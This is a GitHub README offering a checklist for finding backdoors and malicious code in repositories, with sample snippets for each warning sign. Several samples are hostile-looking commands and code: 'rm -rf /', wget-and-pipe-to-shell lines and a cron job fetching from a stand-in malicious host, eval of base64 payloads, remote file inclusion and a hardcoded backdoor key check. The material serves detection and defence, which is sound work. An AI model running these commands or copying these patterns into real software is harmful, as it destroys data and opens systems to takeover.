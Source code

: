 # BackDoor_Detector
You can find backdoors and Remove malicious codes from your Existing Repositories!


# BackDoor_Detector

```markdown
# Identifying Backdoors and Malicious Code in Source Code Repositories

To identify potential backdoors, malware, or malicious code in a source code repository, you can search for specific patterns, functions, or suspicious code snippets commonly associated with such activities. Below are some indicators and code snippets to look for throughout the directory.

## 1. Suspicious Function Calls

Certain function calls are often used in backdoor code or malicious scripts.

### File Operations
Look for functions that create, modify, or delete files:
- `fopen`, `fwrite`, `fread`, `fclose`, `file_put_contents`, `unlink`, `chmod`

**Example:**
```php
fopen("/path/to/file", "w");
```

### Command Execution
Functions that execute system commands are commonly used to backdoor a system:
- `system`, `exec`, `shell_exec`, `passthru`, `popen`, `eval`, `proc_open`, backtick operators (``)

**Example:**
```php
exec("rm -rf /");
```

### Network Connections
Malicious scripts may open connections to remote servers:
- `curl_exec`, `file_get_contents`, `fsockopen`, `stream_socket_client`, `socket_create`, `socket_connect`

**Example:**
```php
curl_exec($ch);
```

## 2. Base64 and Encoding/Decoding Functions

Encoded data may be used to hide malicious payloads. Search for encoding/decoding functions.

### Encoding
- `base64_encode`, `urlencode`, `bin2hex`

**Example:**
```php
base64_encode("malicious_payload");
```

### Decoding
- `base64_decode`, `urldecode`, `hex2bin`, `gzuncompress`

**Example:**
```php
eval(base64_decode("encoded_payload"));
```

## 3. Suspicious HTTP Requests

Malicious code may make HTTP requests to suspicious URLs. Check for hardcoded URLs or IP addresses.

**Examples:**
```php
file_get_contents("http://malicious-site.com");
curl_setopt($ch, CURLOPT_URL, "http://malicious-site.com");
```

## 4. Unusual Shell Commands

Search for shell commands or attempts to escalate privileges, install malicious packages, or access sensitive files.

### Command Injection
Look for command injection patterns using `;`, `&&`, `|`, `>` in user inputs or strings.

**Example:**
```php
system("rm -rf /tmp/ ; wget http://malicious-site.com/malware");
```

## 5. Suspicious File Inclusion

Remote or dynamic file inclusion vulnerabilities can introduce backdoors. Search for dynamic or external file inclusions.

### PHP File Inclusions
- `include`, `require`, `include_once`, `require_once`

**Example:**
```php
include($_GET['file']);
```

## 6. Hidden/Obfuscated Code

Look for obfuscated code using unusual variable names, encoded strings, or functions that hide their purpose.

### JavaScript Obfuscation
- `eval`, `document.write`, `atob`, `setTimeout(eval())`

**Example:**
```javascript
eval(atob("YWxlcnQoJ1lvdSBjYW5ub3QgZXNjYXBlIGZyb20gdGhpcyBlbmNyeXB0ZWQgYmFja2Rvb3InKTs="));
```

## 7. Suspicious User Authentication Code

Search for hardcoded credentials or bypasses of user authentication.

### Hardcoded Passwords/Keys
```php
$password = 'admin123';  // Hardcoded credentials
```

### Bypass
```php
if ($user == 'admin') {
    // Skip authentication
}
```

## 8. Privilege Escalation

Look for any code that changes user or group privileges.

### Linux Privilege Changes
- `setuid`, `setgid`, `chmod 777`, `sudo`

**Example:**
```c
setuid(0);  // Elevates to root privileges
```

## 9. Keylogging/Monitoring

Look for code that captures keystrokes or monitors user activity.

### JavaScript Keylogging
```javascript
document.addEventListener('keydown', function(event) {
    console.log(event.key);  // Capture keystrokes
});
```

### Input Field Capturing
```php
$input = $_POST['password'];  // Capture user input
```

## 10. Suspicious Scheduled Tasks

Look for cron jobs or scheduled tasks that execute scripts at specific intervals.

### Linux Cron Jobs
```bash
* * * * * wget http://malicious-site.com/script.sh | sh
```

## 11. Backdoor Checksum/Signature Checks

Some backdoors check for data integrity signatures that attackers use to maintain control.

### Backdoor Signatures
```php
if (md5($_POST['key']) == '5f4dcc3b5aa765d61d8327deb882cf99') {  // Hardcoded backdoor signature
    // Execute malicious code
}
```

---

## Automated Tools

To automate the detection of malicious code, consider using the following tools:
- **ClamAV**: Open-source antivirus scanner
- **YARA**: Pattern matching tool
- **Chkrootkit**: Rootkit detection tool
- **rkhunter**: Rootkit scanner

These methods provide a starting point for detecting backdoors or malicious code in source code. If you suspect any code, it’s crucial to analyze it further or have it reviewed by security experts.
```

Please Do Not depend on those Automated tools! No other tools Are 100% Backdoor Proof! Do It manually by yourself It's the best thing for your code. Best Of Luck Best Wishes For you..

```
